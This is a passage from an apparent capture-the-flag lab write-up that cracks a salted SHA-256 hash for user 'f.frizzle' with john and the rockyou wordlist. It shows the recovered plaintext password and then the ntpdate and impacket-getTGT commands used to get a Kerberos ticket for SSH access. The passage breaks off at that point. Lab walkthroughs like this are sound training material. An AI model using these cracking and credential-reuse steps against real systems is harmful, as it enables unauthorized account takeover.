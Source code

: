 ```
                  privacy: NULL
                  dayType: NULL
    gibbonThemeIDPersonal: NULL
     gibboni18nIDPersonal: NULL
        studentAgreements: NULL
    googleAPIRefreshToken:
 microsoftAPIRefreshToken:
   genericAPIRefreshToken:
receiveNotificationEmails: Y
                mfaSecret: NULL
                 mfaToken: NULL
            cookieConsent: NULL
                   fields:
```

As seen, we got a username and a password hash with a salt, we can use john to crack it in the following way, first save this on a file:

```
f.frizzle:$dynamic_0$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489
```

Then we can use john:

```bash
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt frizzle.hash

Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=sha256($s.$p) [128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
Jenni_Luvs_Magic23 (f.frizzle)
1g 0:00:00:01 DONE (2025-06-16 22:32) 0.6329g/s 6975Kp/s 6975Kc/s 6975KC/s Jer125..Jeepgal1982
Use the "--show --format=dynamic=sha256($s.$p)" options to display all of the cracked passwords reliably
```

We got our credentials:

```
f.frizzle:Jenni_Luvs_Magic23
```

If we remember from the scan, `winrm` is not enabled on this machine, we need to use ssh which is actually enabled on default port `22`, let's go into ssh:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616173906.png)


If we try going into ssh the normal way, we get what can be seen above, we need to set up a few things before, yes, this part was a little annoying but here's what you need to do, on this point onwards, I will use kali instead of arch as I usually do:


```
# Make sure frizzdc.frizz.htb is on your /etc/hosts file
sudo ntpdate frizzdc.frizz.htb    
impacket-getTGT frizz.htb/'f.frizzle':'Jenni_Luvs_Magic23' -dc-ip frizzdc.frizz.htb    
export KRB5CCNAME=f.frizzle.ccache  
```
